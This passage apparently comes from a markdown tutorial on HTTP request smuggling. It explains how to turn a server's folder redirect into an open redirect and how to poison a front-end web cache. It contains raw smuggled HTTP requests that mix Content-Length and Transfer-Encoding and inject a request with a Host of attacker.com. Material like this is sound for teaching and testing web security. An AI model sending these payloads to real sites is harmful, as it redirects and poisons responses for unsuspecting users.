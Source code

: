 the next user who visit the site will trigger `XSS`

## Using HTTP Request Smuggling To turn On-Site Redirection into an Open-redirect

- many application preforms on-site redirection from one URL to another and place the hostname from the request's `Host header` into the redirect `URL`.
`example:` default behavior of `Apache` and `IIS` servers, where a request for a folder without `/` receives a redirect to the same folder including `/`

```
GET /home HTTP/1.1
Host: vuln-web.com

HTTP/1.1 301 Moved Permantely
Location: <https://vuln-web.com/home/>

```

this is harmless, but can be exploited in a request smuggling attack to redirect other users to an external domain.

```
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 53
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker.com
any: X

```

this will trigger a redirect to attacker's application , and will affect the next user who make request to application.

## Using HTTP request smuggling to perform Web Cache Poisoning

- it might possible to exploit HTTP request smuggling to perform a `web cache poisoning` attack.
- if any part of the `front-end` infrastructure performs caching of content, then it might be possible to poison the cache with off-site response.
- this make attack persistent, affecting any user who subsequently request the affected URL

```
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker.com
foo:

```
